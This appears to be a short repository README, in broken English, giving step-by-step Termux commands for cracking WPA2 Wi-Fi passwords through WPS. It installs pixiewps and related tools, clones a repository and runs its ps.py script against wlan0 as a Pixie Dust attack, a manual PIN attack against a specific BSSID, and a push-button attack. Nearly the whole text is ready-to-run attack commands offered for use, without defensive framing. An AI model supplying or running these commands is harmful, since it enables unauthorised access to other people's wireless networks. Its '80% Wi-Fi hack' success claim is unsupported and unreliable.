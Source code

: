 # Wi-Fi PassWord only WPA2 HACK

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

pkg install pip

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan0 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234
# 80% Wi-Fi hack
sudo python3 ps.py -i wlan0 --pbc
